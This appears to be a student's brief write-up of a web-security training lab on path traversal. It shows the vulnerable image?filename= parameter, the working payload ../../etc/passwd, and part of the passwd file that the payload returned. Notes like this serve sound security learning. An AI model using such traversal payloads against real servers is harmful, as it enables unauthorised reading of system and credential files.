 # Path Control
Websites can expose path traversal in their images i.e.,

`<img src="/loadImage?filename=218.png">`

or in the URL. If there is no protection against path

We are given this [website](https://0a1c000304427b3280949585000e00ac.web-security-academy.net/)

- There is a prompt that the `image?filename=/x/y/z` may be vulnerable

- We try and change the URL to something that does  path traversal
- Brute forcing ../etc/passwd. ../etc/passwd /etc/passwd we get this prompt "No file found" but after some more tries AHA! https://0a5f003e044bf29d80a962ec0000008f.web-security-academy.net/image?filename=../../etc/passwd
works!
![notfailed](./not_failed_page.png)
- Saving this file and changing it to an .txt we can clearly see its the passwd file
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
...
```

